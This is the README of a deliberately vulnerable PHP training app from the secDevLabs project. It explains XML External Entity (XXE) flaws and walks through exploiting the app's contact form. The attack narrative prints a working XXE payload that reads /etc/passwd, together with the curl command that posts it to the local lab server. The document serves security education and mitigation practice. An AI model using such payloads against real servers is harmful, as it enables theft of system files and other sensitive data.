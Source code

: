 # ViniJR Blog

<p align="center">
    <img src="images/blog-fe.png"/>
</p>

This is a simple PHP web application that contains an example of an XML External Entity (XXE) vulnerability and the main goal of this app is to describe how a malicious user could exploit it.

## Index

- [Definition](#what-is-xxe)
- [Setup](#setup)
- [Attack narrative](#attack-narrative)
- [Objectives](#secure-this-app)
- [Solutions](#pr-solutions)
- [Contributing](#contributing)

## What is XXE?

Many older or poorly configured XML processors evaluate external entity references within XML documents. External entities can be used to disclose internal files using the file URI handler, internal file shares, internal port scanning, remote code execution, and denial of service attacks.

The main goal of this app is to discuss how **XXE** vulnerabilities can be exploited and to encourage developers to send secDevLabs Pull Requests on how they would mitigate these flaws.

## Setup

To start this intentionally **insecure application**, you will need [Docker][Docker Install] and [Docker Compose][Docker Compose Install]. After forking [secDevLabs](https://github.com/globocom/secDevLabs), you must type the following commands to start:

```sh
cd secDevLabs/owasp-top10-2017-apps/a4/vinijr-blog
```

```sh
make install
```

Then simply visit [localhost:10080][App] ! 😆

## Get to know the app ⚽️

To properly understand how this application works, you can follow these simple steps:

- Visit it's homepage!
- Try sending ViniJR a message.

## Attack narrative

Now that you know the purpose of this app, what could possibly go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or it's users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

### 👀

#### Non sanitized input field allows for an attacker to retrieve sensitive information

After reviewing the inputs from the app, it is possible to identify that the section "GET IN TOUCH" allows users send messages to the server, as shown in the following picture:

<img src="images/attack-1.png" align="center"/>

Using [Burp Suite](https://portswigger.net/burp) proxy to intercept this request (POST to contact.php) reveals that the message is being built using an XML (if you need any help setting up your proxy you should check this [guide](https://support.portswigger.net/customer/portal/articles/1783066-configuring-firefox-to-work-with-burp)):

<img src="images/attack-2.png" align="center"/>



To replicate this POST using [curl](https://curl.haxx.se/), create the following file `payload.xml`:

```XML
<?xml version="1.0" encoding="UTF-8"?>
<contact>
    <name>RAFAEL</name>
    <email>RAFAEL@EXAMPLE.com</email>
    <subject>YOU ROCK</subject>
    <message>I LOVE WATCHING YOUR SKILLS, MAN</message>
</contact>
```

And run:

```sh
curl -d @payload.xml localhost:10080/contact.php ; echo
```

By checking the source code of the [file](../app/contact.php), it is possible to see how this XML is loaded on the server side:

<img src="images/attack-3.png" align="center"/>

### 🔥

As no validation is being used to avoid [ENTITIES](https://www.w3schools.com/xml/xml_dtd_entities.asp) being sent to the PHP file, an attacker could create the following `evilxml.xml` to perform a XXE:

```XML
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<contact>
<name>&xxe;</name>
<email>RAFAEL@EXAMPLE.com</email>
<subject>YOU ROCK</subject>
<message>I LOVE WATCHING YOUR SKILLS, MAN</message>
</contact>
```

And, as the following picture shows, it is possible to realize that the attack succeeds and sensitive information is retrieved from the server that is hosting the vulnerable app:

```sh
curl -d @evilxml.xml localhost:10080/contact.php ; echo
```

<img src="images/attack-4.png" align="center"/>


## Secure this app

How would you migitate this vulnerability? After your changes, an attacker should not be able to:

* Extract data from the server through the method shown above.

## PR solutions

[Spoiler alert 🚨 ] To understand how this vulnerability can be mitigated, check out [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22ViniJr+Blog%22)!

## Contributing

We encourage you to contribute to SecDevLabs! Please check out the [Contributing to SecDevLabs](../../../docs/CONTRIBUTING.md) section for guidelines on how to proceed! 🎉

[Docker Install]:  https://docs.docker.com/install/
[Docker Compose Install]: https://docs.docker.com/compose/install/
[App]: http://localhost:10080
